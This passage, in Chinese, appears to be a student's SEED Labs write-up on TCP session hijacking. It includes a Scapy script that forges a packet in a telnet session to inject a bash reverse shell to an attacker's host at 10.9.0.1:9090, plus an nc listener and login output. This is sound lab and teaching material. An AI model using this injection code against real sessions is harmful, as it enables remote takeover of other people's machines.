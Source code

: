 ```shell
victim-10.9.0.5$ cat /home/seed/hijacking.out
Fk U bitch!
```

可以看出，程序成功写入了一个文件。

## Task 4: Creating Reverse Shell using TCP Session Hijacking

编写 `reverseshell.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
    pkt = ip/tcp/data
    send(pkt, verbose=0)
    
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

在 attacker 上开启监听：

```shell
attacker-10.9.0.1$ nc -lnv 9090
Listening on 0.0.0.0 9090
```

telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
22c45e0a11e6 login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 29 10:54:18 UTC 2022 from user1-10.9.0.6.net-10.9.0.0 on pts/3
```
